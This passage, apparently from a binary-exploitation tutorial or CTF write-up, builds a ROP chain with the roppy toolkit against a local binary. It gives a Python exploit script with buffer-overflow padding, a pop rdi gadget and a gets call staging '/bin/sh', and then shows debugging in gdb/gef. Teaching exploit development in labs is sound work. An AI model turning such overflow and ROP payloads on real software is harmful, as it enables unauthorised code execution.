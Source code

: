 {% tab title="ROP chain" %}
Let's write the chain to a file and then use `gdb` to check the memory. In order to test the exploit locally, we can use\
[https://github.com/D4mianWayne/roppy](https://github.com/D4mianWayne/roppy) which is an exploit development toolkit to work alongside the rop chain and have the abilityto debug it in real time.

```python
from roppy import *

elf = ELF("binary-file")
p = process("./binary-file")
pop_rdi = 0x4012e3
payload = b"A"*264
payload += p64(pop_rdi)
payload += p64(0x404050 + 0x400)
payload += p64(elf.plt['gets'])

pause()
p.sendline(payload)
p.interactive()
```

The `pause()` waits for any interaction encountered, such as a key stroke. When we run it, it will prompt us for input.

```python
└─$ python3 xpl.py                                                                                                                                                       1 ⨯
[*] ELF: /home/kali/binary-file
[+] Starting program: PID 52493
[*] Paused [Press any key to continue]
```

We attach that PID to our gef debbuging session:

```bash
gef➤  attach 52493                                                                                                                                                           
Attaching to process 52493     
...                                                                                                                                              
[#0] Id 1, Name: "", stopped 0x7f74d57f055e in __GI___libc_read (), reason: STOPPED
```

We can continue the execution using `c` in the `gdb` session and then pressing any key on the roppy's running session. After pressing a key, we will provide the string `/bin/sh`.

```python
└─$ python3 xpl.py                                                                                                                                                       1 ⨯
[*] ELF: ...
[+] Starting program '': PID 52493
[*] Paused [Press any key to continue]
...
$ /bin/sh
```
